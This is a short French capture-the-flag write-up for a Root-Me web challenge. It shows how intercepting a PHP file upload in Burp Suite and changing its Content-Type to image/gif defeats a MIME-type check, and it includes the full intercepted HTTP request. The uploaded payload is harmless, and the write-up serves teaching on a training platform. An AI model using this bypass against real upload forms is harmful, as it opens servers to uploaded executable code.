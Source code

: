 # File upload - type MIME

La page de [challenge](http://challenge01.root-me.org/web-serveur/ch21/?action=upload)

## Attaque

J'utilise **Burp Suite** pour intercepter mes requêtes http. Je fais bien attention de laisser l'option _intercept_ de _Proxy_ en _on_.

Je créer le fichier _file.php_, que j'upload depuis la page du challenge. Cette requête seras intercepter par Burp.
```
<?php
echo 0;
?>
```

Depuis mon interface Burp, j'analyse la requête interceptée. Je remarque le champ `Content-Type:application/x-php`.

```
POST /web-serveur/ch21/?action=upload HTTP/1.1
Host: challenge01.root-me.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.7,en-US;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://challenge01.root-me.org/web-serveur/ch21/?action=upload
Cookie: PHPSESSID=...
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------7227795332295222081052113690
Content-Length: 240

-----------------------------7227795332295222081052113690
Content-Disposition: form-data; name="file"; filename="file.php"
Content-Type: application/x-php

<?php
echo 0;
?>

-----------------------------7227795332295222081052113690--
```

Je change `Content-Type: application/x-php` en `Content-type: image/gif` puis je forward la requête. De retour sur mon navigateur, le fichier a bien été uploadé. EN cliquant dessus, je retrouve le flag de challenge.
